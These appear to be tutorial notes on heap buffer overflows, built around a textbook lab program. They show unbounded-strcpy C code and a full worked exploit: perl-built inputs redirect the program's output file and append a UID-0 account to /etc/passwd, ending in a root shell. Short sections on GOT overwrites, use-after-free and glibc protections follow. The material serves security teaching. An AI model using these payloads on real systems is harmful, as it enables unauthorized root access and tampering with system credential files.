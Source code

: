 # Heap BOF to write arbitrary file contents

Example of vulnerable code:

```c
buffer = (char *) ec_malloc(100);
datafile = (char *) ec_malloc(20);
strcpy(datafile, "/var/notes");
if(argc < 2) 						// If there aren't command-line arguments,
	usage(argv[0], datafile); 		// display usage message and exit.

strcpy(buffer, argv[1]); 			// Copy into buffer.

printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);
```

- buffer allocation @ `0x804a008`
- datafile allocation @ `0x804a070`

```bash
reader@hacking:~/booksrc $ ./notetaker test
[DEBUG] buffer @ 0x804a008: 'test'
[DEBUG] datafile @ 0x804a070: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0x804a070 - 0x804a008
$1 = 104
(gdb) quit
```

Since there are no checks on the length of **buffer**, it is possible to copy inside it an amount of data that overwrite the **datafile** variable with an arbitrary file path.

```bash
reader@hacking:~/booksrc $ ./notetaker $(perl -e 'print "A"x104 . "testfile"')
[DEBUG] buffer @ 0x804a008: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtestfile'
[DEBUG] datafile @ 0x804a070: 'testfile'
[DEBUG] file descriptor is 3
Note has been saved.
*** glibc detected *** ./notetaker: free(): invalid next size (normal): 0x0804a008 ***
======= Backtrace: =========
/lib/tls/i686/cmov/libc.so.6[0xb7f017cd]
/lib/tls/i686/cmov/libc.so.6(cfree+0x90)[0xb7f04e30]
...
ffffe000-fffff000 r-xp 00000000 00:00 0 [vdso]
Aborted
```

This causes the program to write to *testfile* instead of `/var/notes`, as it was originally programmed to do.
However, when the heap memory is freed by the `free()` command, errors in the heap headers are detected and the program is terminated.

Since the filename can be controlled, data can be appended to any file.

```bash
reader@hacking:~/booksrc $ mkdir /tmp/etc
reader@hacking:~/booksrc $ ln -s /bin/bash /tmp/etc/passwd
reader@hacking:~/booksrc $ ls -l /tmp/etc/passwd
lrwxrwxrwx 1 reader reader 9 2007-09-09 16:25 /tmp/etc/passwd -> /bin/bash
reader@hacking:~/booksrc $ perl -e 'print "myroot:XXq2wKiyI43A2:0:0:me:/root:/tmp"' | wc -c
38
reader@hacking:~/booksrc $ perl -e 'print "myroot:XXq2wKiyI43A2:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
reader@hacking:~/booksrc $ gdb -q
(gdb) p 104 - 86 + 50
$1 = 68
(gdb) quit
reader@hacking:~/booksrc $ perl -e 'print "myroot:XXq2wKiyI43A2:0:0:" . "A"x68 . ":/root:/tmp"' | wc -c
104

reader@hacking:~/booksrc $ ./notetaker $(perl -e 'print "myroot:XXq2wKiyI43A2:0:0:" . "A"x68 .
":/root:/tmp/etc/passwd"')
[DEBUG] buffer @ 0x804a008: 'myroot:XXq2wKiyI43A2:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] datafile @ 0x804a070: '/etc/passwd'
[DEBUG] file descriptor is 3
Note has been saved.
*** glibc detected *** ./notetaker: free(): invalid next size (normal): 0x0804a008 ***
======= Backtrace: =========
/lib/tls/i686/cmov/libc.so.6[0xb7f017cd]
/lib/tls/i686/cmov/libc.so.6(cfree+0x90)[0xb7f04e30]
...
Aborted
reader@hacking:~/booksrc $ tail /etc/passwd
avahi:x:105:111:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
cupsys:x:106:113::/home/cupsys:/bin/false
haldaemon:x:107:114:Hardware abstraction layer,,,:/home/haldaemon:/bin/false
hplip:x:108:7:HPLIP system user,,,:/var/run/hplip:/bin/false
gdm:x:109:118:Gnome Display Manager:/var/lib/gdm:/bin/false
matrix:x:500:500:User Acct:/home/matrix:/bin/bash
jose:x:501:501:Jose Ronnick:/home/jose:/bin/bash
reader:x:999:999:Hacker,,,:/home/reader:/bin/bash
?
myroot:XXq2wKiyI43A2:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
reader@hacking:~/booksrc $ su myroot
Password:
root@hacking:/home/reader/booksrc# whoami
root
```

# Heap BOF to overwrite GOT

<iframe width="660" height="415" src="https://www.youtube.com/embed/TfJrU95q1J4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Use-after-free

Use after free errors occur when a program continues to use a pointer after it has been freed. Like [double free errors](https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory) and [memory leaks](https://owasp.org/www-community/vulnerabilities/Memory_leak), use after free errors have two common and sometimes overlapping causes:

- Error conditions and other exceptional circumstances
- Confusion over which part of the program is responsible for freeing the memory

<iframe width="660" height="415" src="https://www.youtube.com/embed/ZHghwsTRyzQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Protections

Similar to the **return address overwrite** with stack overflows, there are **control points within the heap architecture itself**.
The most recent version of glibc uses **heap memory management functions** that have evolved specifically to counter heap unlinking attacks. Since version 2.2.5, these functions have been rewritten to print debugging information and **terminate the program** when they detect problems with the heap header information. This makes heap unlinking in Linux very difficult.